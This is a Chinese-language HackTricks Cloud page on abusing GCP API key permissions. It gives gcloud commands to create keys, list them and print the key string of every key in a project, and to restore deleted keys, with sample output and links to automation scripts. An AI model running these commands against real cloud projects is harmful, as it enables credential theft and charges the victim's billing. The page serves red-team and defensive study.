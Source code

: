 # GCP - Apikeys 权限提升

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在 **HackTricks中看到您的公司广告** 或 **下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。**

</details>

## Apikeys

以下权限对于创建和窃取API密钥很有用，请注意文档中的说明：_API密钥是一个简单的加密字符串，它**不涉及任何主体地标识一个应用程序**。它们对于匿名访问**公共数据**很有用，并用于将API请求与您的项目关联，以便进行配额和**计费**。_

因此，使用API密钥，您可以使公司为您使用API付费，但您将无法提升权限。

由于您可能不知道项目中启用了哪些API，运行工具 [https://github.com/ozguralp/gmapsapiscanner](https://github.com/ozguralp/gmapsapiscanner) 并检查**您可以使用API密钥访问什么**会很有趣。

有关API密钥的更多信息，请查看：

{% content-ref url="../gcp-services/gcp-api-keys-enum.md" %}
[gcp-api-keys-enum.md](../gcp-services/gcp-api-keys-enum.md)
{% endcontent-ref %}

### `apikeys.keys.create` <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

此权限允许**创建API密钥**：
```bash
gcloud services api-keys create
Operation [operations/akmf.p7-[...]9] complete. Result: {
"@type":"type.googleapis.com/google.api.apikeys.v2.Key",
"createTime":"2022-01-26T12:23:06.281029Z",
"etag":"W/\"HOhA[...]==\"",
"keyString":"AIzaSy[...]oU",
"name":"projects/5[...]6/locations/global/keys/f707[...]e8",
"uid":"f707[...]e8",
"updateTime":"2022-01-26T12:23:06.378442Z"
}
```
您可以在[**这里找到一个脚本，用于自动化创建、利用和清理漏洞环境**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/b-apikeys.keys.create.sh)。

### `apikeys.keys.getKeyString` , `apikeys.keys.list` <a href="#apikeys.keys.getkeystringapikeys.keys.list" id="apikeys.keys.getkeystringapikeys.keys.list"></a>

这些权限允许**列出并获取所有的apiKeys以及获取密钥**：
```bash
for  key  in  $(gcloud services api-keys list --uri); do
gcloud services api-keys get-key-string "$key"
done
```
你可以在这里找到一个脚本来自动化[**创建、利用和清理漏洞环境**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/c-apikeys.keys.getKeyString.sh)。

### `apikeys.keys.undelete`，`apikeys.keys.list` <a href="#serviceusage.apikeys.regenerateapikeys.keys.list" id="serviceusage.apikeys.regenerateapikeys.keys.list"></a>

这些权限允许你**列出和重新生成已删除的api密钥**。在完成**undelete**操作后，**API密钥将在输出中给出**：
```bash
gcloud services api-keys list --show-deleted
gcloud services api-keys undelete <key-uid>
```
<details>

<summary><strong>从零到英雄学习AWS黑客技术，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方的PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
